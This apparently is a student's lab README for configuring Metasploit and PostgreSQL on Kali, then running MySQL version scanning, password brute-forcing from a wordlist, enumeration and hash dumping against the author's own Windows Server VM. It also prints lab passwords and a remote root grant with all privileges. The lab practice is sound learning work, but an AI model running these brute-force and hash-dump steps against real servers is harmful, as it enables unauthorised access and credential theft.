

# Section 1: 

## In Kali VM: 

- Start PostgreSQL:
  ```bash
  sudo /etc/init.d/postgresql start
  ```
  - Reinstall PostgreSQL if necessary (due to missing database.yml in the directory /usr/share/metasploit-framework/config/database.yml):
    ```bash
    sudo apt install postgresql postgresql
    ```
  - Enable and restart PostgreSQL:
    ```bash
    sudo systemctl enable postgresql
    sudo systemctl restart postgresql
    ```
  - Verify PostgreSQL status:
    ```bash
    sudo systemctl status postgresql
    ```
  - Switch to postgres user and access PostgreSQL:
    ```bash
    sudo su - postgres
    psql -p 5433
    \du   # Check if 'postgres' user exists and is a superuser
    alter user postgres with password 'admin@123';
    \l   # Check for a database named 'postgres'
    
- Start Metasploit
   ```bash
    /etc/init.d/metasploit start # (old method, won't work)
    ```
  - Instead, install Metasploit Framework:
    ```bash
    sudo apt install metasploit-framework
    ```
  -  if **sudo systemctl start metasploit** work do not do the following comands else do this:
      - Verify Metasploit paths:
        ```bash
        which msfconsole
        locate metasploit-framework
        ```
     - Adjust Metasploit service configuration if paths differ:
       ```bash
       sudo nano /etc/systemd/system/metasploit.service
       ```
      <pre>
      ```
      [Unit]
      Description=Metasploit Framework
      After=network.target
      [Service]
      Type=simple
      ExecStart=/usr/local/bin/msfconsole
      User=root
      WorkingDirectory=/usr/local/share/metasploit-framework
      [Install]
      WantedBy=multi-user.target
      ```
      </pre>
  - Now start and check the status of metasploit
    ```bash
    sudo systemctl start metasploit
    sudo systemctl status metasploit
    ```
  - Start Metasploit console and wait for initialization:
    ```bash
    msfconsole
    ```
  - Within the metasploit console run the following:
      - Check database connection status:
        ```bash
        db_status
        ```
      - If not connected, configure database connection:
        ```bash
        db_connect –y /usr/share/metasploit-framework/config/database.yml
        ```
      - If you encounter this error in PostgreSQL configuration:
        
         - Do the following :
           ```bash
           sudo nano /etc/postgresql/14/main/postgresql.conf
           ```
            - Uncomment this line :
               ```bash
              # listen_addresses = 'localhost'
               ```
            - Adjust those lines to look like this :
              ```bash
              log_timezone = 'UTC'
              TimeZone = 'UTC'
              ```
            - Also go to this file
              ```bash
              sudo nano /etc/postgresql/14/main/pg_hba.conf
              ```
           - Ensure these lines exist:
             ```bash
             local   all     postgres       peer
             
             local   all     all            peer
             host    all     all            127.0.0.1/32 md5
             ```
           - Restart PostgreSQL:
             ```bash
             sudo systemctl restart postgresql
             ```
           - if there are any other errors try :
             ```bash
             sudo tail -n 50 /var/log/postgresql/postgresql-14-main.log
             ```
      - Update Metasploit database configuration:
        ```bash
        sudo nano /usr/share/metasploit-framework/config/database.yml
        ```
        - Example my configuration:
        <pre>
        development:
          adapter: postgresql
          database: msf6
          username: msf6
          password: RIbJY72yN0T8mPaYaaT96NRF2b/VNXEjEMFqpxRIuhw=
          host: localhost
          port: 5432
          pool: 5
          timeout: 5
        production:
          adapter: postgresql
          database: msf6
          username: msf6
          password: RIbJY72yN0T8mPaYaaT96NRF2b/VNXEjEMFqpxRIuhw=
          host: localhost
          port: 5432
          pool: 5
          timeout: 5
         </pre>
         
      - Create PostgreSQL database and user for Metasploit:
        ```bash
        sudo su - postgres
        psql -p 5433
        CREATE DATABASE msf6;
        CREATE USER msf6 WITH PASSWORD 'RIbJY72yN0T8mPaYaaT96NRF2b/VNXEjEMFqpxRIuhw=';
        GRANT ALL PRIVILEGES ON DATABASE msf6 TO msf6;
        ```
     - Restart PostgreSQL and Metasploit:
       ```bash
       sudo systemctl restart postgresql
       sudo systemctl restart metasploit
     - Reconnect to Metasploit console and continue:
       ```bash
       msfconsole
       db_connect –y /usr/share/metasploit-framework/config/database.yml
       ```
       
       
## In Windows Server VM (MySQL Server)
     
Example commands inside Metasploit console:

- Install MySQL server on Windows Server
- Open terminal and connect to MySQL:
  ```bash
  mysql -u root -p
  ```
- Set up MySQL users and permissions: (192.168.43.93 : is the ip @ of my kali VM , and 'mounaMYSQL19' is my SQL server password)
  ```bash
  CREATE USER 'root'@'192.168.43.93' IDENTIFIED BY 'mounaMYSQL19';  
  GRANT ALL PRIVILEGES ON *.* TO 'root'@'192.168.43.93';
  FLUSH PRIVILEGES;

## In Kali VM
  
- inside msf console, execute Metasploit commands: ( 192.168.43.189 is the ip @ of my MYSQL server VM)
- 1- 
  ```bash
  use auxiliary/scanner/mysql/mysql_version
  ```
- inside this console do :
  ```bash
  set RHOSTS 192.168.43.189
  run
  ```
  
- 2-
  ```bash
  use auxiliary/scanner/mysql/mysql_login
- inside this console do :
  ```bash
  set RHOSTS 192.168.43.189
  set USERNAME root
  set PASS_FILE /mouna19/passwords.txt
  run
  ```
  this file contains potential passwords
  
  
- 3-
  ```bash
  use auxiliary/admin/mysql/mysql_enum
  ```
- inside this console do :
  ```bash
  set RHOSTS 192.168.43.189
  set USERNAME root
  set PASSWORD mounaMYSQL19
  run
  ```
  
- 4-
  ```bash
  use auxiliary/scanner/mysql/mysql_hashdump
  ```
- inside this console do :
  ```bash
  set RHOSTS 192.168.43.189
  set USERNAME root
  set PASSWORD mounaMYSQL19
  run
  ```
  
- Open another terminal window in Kali for MySQL console access:
  ```bash
  mysql -u root -p -h 192.168.43.189
- Enter the password (e.g., mounamySQL19) to access MySQL console.
  
  
